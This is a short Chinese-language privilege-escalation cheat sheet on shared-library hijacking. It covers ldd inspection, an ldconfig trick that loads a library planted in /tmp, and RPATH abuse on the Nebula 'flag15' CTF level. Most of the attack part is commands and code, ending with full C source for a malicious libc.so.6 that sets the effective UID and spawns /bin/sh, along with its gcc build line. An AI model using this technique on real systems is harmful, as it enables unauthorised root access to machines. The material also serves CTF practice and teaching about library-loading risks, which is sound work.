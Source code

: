 ## 共享库

### ldconfig

使用`ldd`识别共享库

```powershell
$ ldd /opt/binary
    linux-vdso.so.1 (0x00007ffe961cd000)
    vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)        
```

在`/tmp`中创建库并激活路径。

```powershell
gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
/opt/binary
```

### RPATH

```powershell
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
```

通过将库复制到`/var/tmp/flag15/`，程序将在`RPATH`变量中指定的位置使用它。

```powershell
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```

然后在`/var/tmp`中使用`gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`创建一个恶意库

```powershell
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```
